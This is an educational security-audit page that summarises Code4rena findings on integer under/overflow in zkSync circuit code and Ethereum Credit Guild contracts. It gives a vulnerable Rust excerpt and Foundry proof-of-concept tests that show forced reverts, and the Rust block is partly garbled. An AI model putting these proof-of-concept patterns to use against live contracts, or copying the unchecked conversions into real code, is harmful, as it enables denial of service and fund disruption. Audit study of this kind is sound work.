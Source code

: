 # ETAAcademy-Adudit: 2. Under/Overflow

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Under/Overflow</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>under/overflow</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Reduction gate in binop operation is unsafe

### Lack of overflow check

- Summary: This method converts a constraint system variable (representing a value in the prime field) directly into a **`UInt8`** value without performing any overflow checks.

- Impact & Recommendation: This means that if the original value exceeds the range of **`UInt8`** (0 to 255), an attacker could inject unexpected or malicious behavior into the circuit by manipulating the overflowed **`xor_result`**.
  🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/679) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

    let mut composite_result = [Variable::placeholder(); 32];
    for ((a, b), dst) in a.iter().zip(b.iter()).zip(composite_result.iter_mut()) {
        let [result] = cs.perform_lookup::<2, 1>(table_id, &[a.get_variable(), b.get_variable()]);
        *dst = result;
    }

    At first, we perform a lookup to get the composite result for and, or and xor.


    for (src, decomposition) in composite_result.iter().zip(all_results.array_chunks::<3>()) {
        if cs.gate_is_allowed::<ReductionGate<F, 4>>() {
            let mut gate = ReductionGate::<F, 4>::empty();
            gate.params = ReductionGateParams {
                reduction_constants: [F::SHIFTS[0], F::SHIFTS[16], F::SHIFTS[32], F::ZERO],
            };
            gate.reduction_result = *src;
            gate.terms = [
                decomposition[0],
                decomposition[1],
                decomposition[2],
                zero_var,
            ];
            gate.add_to_cs(cs);
        }


    for (((and, or), xor), src) in and_results
    .iter_mut()
    .zip(or_results.iter_mut())
    .zip(xor_results.iter_mut())
    .zip(all_results.array_chunks::<3>())
    {
    *and = src[0];
    *or = src[1];
    \*xor = src[2];
    }
    let and_results = and_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let or_results = or_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let xor_results = xor_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    Finally, we get three separate results from all_results.



    for source*set in all_results.array_chunks::<3>() {
    // value is irrelevant, it's just a range check
    let *: [Variable; 1] = cs.perform_lookup::<2, 1>(table_id, &[source_set[0], source_set[1]]);
    }


  ```

</details>

## 2.[Medium] TotalBorrowedCredit can revert, breaking gauges.

### CreditMultiplier affect totalBorrowedCredit

- Summary: Changes in the creditMultiplier can cause issues in the totalBorrowedCredit function, potentially leading to reverting due to underflow. This affects debt ceiling calculations and can break borrow operations, impacting functionality.

- Impact & Recommendation: To prevent failures, either cap totalBorrowedCredit at 0 or track total tokens minted and burned by the PSM module to remove dependence on creditMultiplier.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1170) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackRevert() public {
    // grant roles to test contract
    vm.startPrank(governor);
    core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
    core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
    vm.stopPrank();
    emit log_named_uint('TBC 1', profitManager.totalBorrowedCredit());
    // psm mint 100 CREDIT
    pegToken.mint(address(this), 100e6);
    pegToken.approve(address(psm), 100e6);
    psm.mint(address(this), 100e6);
    emit log_named_uint('TBC 2', profitManager.totalBorrowedCredit());
    // apply a loss
    // 50 CREDIT of loans completely default (50 USD loss)
    profitManager.notifyPnL(address(this), -50e18);
    emit log_named_uint('TBC 3', profitManager.totalBorrowedCredit());
    // burn tokens to throw off the ratio
    credit.burn(70e18);
    vm.expectRevert();
    emit log_named_uint('TBC 4', profitManager.totalBorrowedCredit());
    }


  ```

  </details>

## 2.[Medium] PnL system can be broken by large users intentionally or unintentionally.

### CreditMultiplier affected by `creditTotalSupply - loss < 0`

- Summary: The notifyPnL function in ProfitManager.sol calculates the credit multiplier based on creditTotalSupply minus loss. If the loss exceeds creditTotalSupply, it causes a revert, breaking gauge slashing and voting systems.

- Impact & Recommendation: Excessive losses cause gauge vote slashing, decrease the creditMultiplier, and disrupt the auction process. If the loss exceeds creditTotalSupply, setting the creditMultiplier to 0 prevents system breakdown.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1166) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackBid() public {
    bytes32 loanId = _setupAndCallLoan();
    uint256 PHASE_1_DURATION = auctionHouse.midPoint();
    uint256 PHASE_2_DURATION = auctionHouse.auctionDuration() - auctionHouse.midPoint();
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + PHASE_1_DURATION + (PHASE_2_DURATION * 2) / 3);
    // At this time, get full collateral, repay half debt
    (uint256 collateralReceived, uint256 creditAsked) = auctionHouse.getBidDetail(loanId);
    emit log_named_uint('collateralReceived', collateralReceived);
    emit log_named_uint('creditAsked', creditAsked);
    vm.startPrank(borrower);
    credit.burn(20_000e18);
    vm.stopPrank();
    // bid
    credit.mint(bidder, creditAsked);
    vm.startPrank(bidder);
    credit.approve(address(term), creditAsked);
    vm.expectRevert();
    auctionHouse.bid(loanId);
    vm.stopPrank();
    }

  ```

  </details>

## 3.[Medium] Rounding errors can cause ERC20RebaseDistributor transfers and mints to fail for underflow

### Underflow by rounding errors

- Summary: Rounding issues in ERC20RebaseDistributor can cause transfers to fail if there's a discrepancy in share calculations. This can be exploited to disrupt operations like liquidations, as affected addresses cannot exit rebase to fix transfers.

- Impact & Recommendation: Transfers and mints involving rebasing addresses may fail. To fix this, consider adjusting share calculations to tolerate rounding fluctuations, like flooring the relevant subtractions to 0.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/294) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testM2bis() external {
        uint t0 = block.timestamp;
        // set up the credit token with the minimum 100e18 rebasing supply
        // as indicated here ->

        ct.mint(address(1), 100e18);
        vm.prank(address(1));
        ct.enterRebase();

        ct.mint(address(2), 6e11); vm.prank(address(2)); ct.distribute(6e11);
        vm.warp(2);
        ct.mint(address(2), 3e12); vm.prank(address(2)); ct.distribute(3e12);
        vm.warp(3);

        ct.mint(address(3), 1e20);
        vm.prank(address(3));
        // ☢️ this shouldn't revert!
        vm.expectRevert();
        ct.transfer(address(1), 1e20);
        // ☢️ this shouldn't either!
        vm.expectRevert();
        ct.mint(address(1), 1e20);
        // ☢️ this too..
        vm.prank(address(1));
        vm.expectRevert();
        ct.exitRebase();
        // ☢️ same here...
        vm.startPrank(address(1));
        vm.expectRevert();
        ct.transfer(address(3), 1e20);
        // ☢️ I bet you saw this coming...
        ct.approve(address(3), 1e20);
        vm.startPrank(address(3));
        vm.expectRevert();
        ct.transferFrom(address(1), address(3), 1e20);
    }

  ```

  </details>
